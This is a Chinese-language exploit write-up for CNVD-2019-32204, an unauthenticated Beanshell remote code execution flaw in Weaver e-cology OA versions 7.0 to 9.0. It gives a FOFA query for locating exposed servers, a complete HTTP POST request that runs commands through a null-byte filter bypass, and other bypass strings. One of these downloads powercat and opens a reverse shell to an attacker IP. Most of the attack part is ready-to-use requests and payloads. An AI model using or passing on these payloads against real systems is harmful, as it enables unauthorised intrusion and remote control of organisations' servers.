 # 泛微OA Bsh 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

> ![NOTE]
>
> app=“泛微-协同办公OA”

## 影响版本

> ![NOTE]
>
> E-cology 7.0
> E-cology 8.0
> E-cology 8.1
> E-cology 9.0

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“ipconfig.exe”

![](image/fanwei-6.png)

请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

#### 关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

### 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204